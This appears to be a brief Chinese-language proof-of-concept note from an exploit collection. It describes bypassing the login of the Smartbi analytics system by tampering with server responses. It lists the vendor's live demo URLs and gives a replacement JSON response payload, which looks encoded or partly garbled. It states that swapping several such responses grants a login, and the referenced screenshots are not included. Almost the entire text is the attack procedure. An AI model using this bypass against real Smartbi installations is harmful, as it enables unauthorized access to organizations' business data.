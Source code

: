# Smartbi大数据分析系统登录页面存在逻辑缺陷漏洞

#  官方DEMO    
http://demo.smartbi.com.cn/smartbi/vision/index.jsp         
![img](images/clipboard.png)         
http://demo.smartbi.com.cn/smartbi/vision/config.jsp        
![img](images/clipboard-1584693106666.png)     
将响应包报文替换如下       
{"H~CxOm~":q,"H~*2KC":CH2~,"m2HECcO'":1}         
![img](images/clipboard-1584693121058.png)    
依次替换几个报文后可成功登录系统      
 ![img](images/clipboard-1584693131304.png)      